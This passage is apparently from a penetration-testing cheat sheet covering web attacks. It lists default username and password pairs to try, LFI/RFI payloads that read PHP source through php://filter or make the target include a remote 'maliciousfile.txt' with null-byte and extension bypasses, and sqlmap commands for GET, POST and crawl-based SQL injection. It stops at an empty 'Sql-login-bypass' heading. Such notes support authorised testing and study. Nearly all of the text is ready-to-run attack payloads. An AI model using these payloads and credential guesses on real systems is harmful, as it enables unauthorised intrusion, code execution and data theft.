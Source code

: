 
#### Default/Weak login

Google documentation for default passwords and test them:

```
site:webapplication.com password
```

```
admin admin
admin password
admin <blank>
admin nameofservice
root root
root admin
root password
root nameofservice
<username if you have> password
<username if you have> admin
<username if you have> username
<username if you have> nameofservice
```

#### LFI/RFI

```
# Kadimus
/root/Tools/Kadimus/kadimus -u http://INSERT_IP_ADDRESS/example.php?page=


# Bypass execution
http://INSERT_IP_ADDRESS/index.php?page=php://filter/convert.base64-encode/resource=index
base64 -d savefile.php

# Bypass extension
http://INSERT_IP_ADDRESS/page=http://192.168.1.101/maliciousfile.txt%00
http://INSERT_IP_ADDRESS/page=http://192.168.1.101/maliciousfile.txt?
```


#### SQL-Injection

```
# Post
./sqlmap.py -r search-test.txt -p tfUPass

# Get
sqlmap -u "http://INSERT_IP_ADDRESS/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://INSERT_IP_ADDRESS --dbms=mysql --crawl=3
```

#### Sql-login-bypass
